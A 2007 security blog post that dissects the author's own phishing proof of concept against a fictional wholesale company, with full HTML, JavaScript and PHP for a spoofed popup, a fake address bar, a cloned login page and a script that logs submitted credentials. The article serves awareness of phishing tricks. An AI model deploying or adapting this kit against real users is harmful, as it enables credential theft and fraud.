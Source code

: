 ```yaml
---
title: The anatomy of a phishing attack - advanced technique
date: 2007-07-12
tag:
- security
---
```

So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  

<!--more-->

In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwiches with a website at `wholesalepbj.com`.  My 'fake' URL that I provided the target with was from an e-mail from `sales@wholesalepbj.com` which told them about a new promotion we were running.  It told them to go to `diamondquality-wholesalepbj.com` for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited `wholesalepbj.com` and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  `diamondquality-wholesalepbj.com`, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to go to our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  
Just click 
<a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a>
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
  window.open("redirectToPBJ.html", "PBJWindow",
              "status=0,toolbar=0,location=0,left=1,top=1,height=" 
              + screen.height + ",width=1010"
             );
  return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns `false` so we never go to the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see a lot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to `pbj`, we name it `pbjwindow`, etc.  You'll notice the only suspect thing is `location=0` in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

**`redirectToPBJ.html`**
```html
<html>
  <title>http://www.wholesalepbj.com</title>
  <frameset rows="27,*" border=0 frameborder=0>
    <frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
    <frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
  </frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to `www.wholesalepbj.com.html`.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Lets check out the **`top.html`** file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

**`top.html`**
```html
<style type="text/css">
  body {
    margin: 0px;
    padding: 0px;
    background-color: #d4d0c8;
    font-family: tahoma;
    font-size: 11px;
    border-top: 1px solid #ffffff;
    border-bottom: 1px solid #aaaaaa;
    vertical-align: middle;
  }

  #address {
    float: left;
    height: 35px;
    padding: 3px;
  }

  #addressbox {
    width: 910px;
  }

  #gobutton {
    background-image: url('go.jpg');
    background-repeat: no-repeat;
    border: 0px;
    padding-left: 17px;
  }
  </style>
  <script type="text/javascript">
    function gotoAddress()
    {
      var v= document.getElementById('addressbox').value;
      if (v.substr(0, 7) != 'http://') {
        v = 'http://' + v;
      }
      top.opener.location.href=v;
      parent.window.close();
      return false;
    }
  </script>

  <p id="address">Address</p>
  <p id="box">
  <form name="address" action="/" onsubmit="return gotoAddress()">
    <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
    <input value="Go" id="gobutton" type="submit" />
  </form>
</p>
```

This is an interesting piece of code.  First off, lets start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The **`go.jpg`** is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an `http://`, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, lets move on to spoofing the real website.

I simply went to `wholesalepbj.com` in my browser and did a file -> save as - and saved the entire web page and archive named `www.wholesalepbj.com.html`.  I uploaded this to my evil server as well.  It had to be named this so we could support the `src` attribute in our framed document **`top.html`**'s source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll go to the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Lets take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite(
  $f, 
  "----------------------------\nip: " 
    . $_SERVER['REMOTE_ADDR'] . "n" 
    . print_r($_POST, TRUE)
);
fclose($f);
?>
<script type="text/javascript">
  parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.